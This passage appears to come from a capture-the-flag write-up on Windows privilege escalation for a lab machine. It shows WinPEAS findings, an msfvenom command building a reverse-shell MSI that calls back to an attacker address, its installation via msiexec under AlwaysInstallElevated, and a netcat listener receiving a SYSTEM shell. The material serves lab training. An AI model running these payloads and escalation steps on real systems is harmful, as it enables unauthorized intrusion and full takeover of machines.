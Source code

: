 ```
08/25/2022  04:22 AM    <DIR>          Music
08/25/2022  04:22 AM    <DIR>          Pictures
08/25/2022  04:22 AM    <DIR>          Saved Games
08/25/2022  04:22 AM    <DIR>          Searches
12/22/2024  08:31 PM         9,841,664 Usersdatasci-teamwinpeas.exe
08/25/2022  04:22 AM    <DIR>          Videos
               1 File(s)      9,841,664 bytes
              15 Dir(s)  36,645,306,368 bytes free

dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>ren Usersdatasci-teamwinpeas.exe winpeas.exe
```

Running WinPEAS reveals a couple things of interest. First, ```dev-datasci-lowpriv``` has permissions to run Windows Installer packages with elevated privileges.

![Winpeas AlwaysInstallElevated](/img/weasel/install_elevated.png)

```dev-datasci-lowpriv``` also has its credentials stored for AutoLogon.

![AutoLogon credentials](/img/weasel/autologin.png)

Now all we need to do is create a malicious .msi file and install it on the Windows host for privilege escalation. I generated one using msfvenom.

```
┌──(kali㉿kali)-[/tmp]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.13.48.55 LPORT=8000 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

After transferring it onto our target, we can execute it. I had to explicitly run msiexec as ```dev-datasci-lowpriv``` with "runas".

```
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>runas /user:dev-datasci-lowpriv "msiexec /quiet /i C:\Users\dev-datasci-low
priv\shell.msi"
Enter the password for dev-datasci-lowpriv:
Attempting to start msiexec /quiet /i C:\Users\dev-datasci-lowpriv\shell.msi as user "DEV-DATASCI-JUP\dev-datasci-lowpriv" ...
```

And now we have a shell as ```nt authority\system```.

```
┌──(kali㉿kali)-[/tmp]
└─$ rlwrap nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.34.193] 53713
Microsoft Windows [Version 10.0.17763.3287]
(c) 2018 Microsoft Corporation. All rights reserved.


[^1]: You can read still the flags here, but AFAIK getting command execution on Windows isn't possible from the mounted filesystem.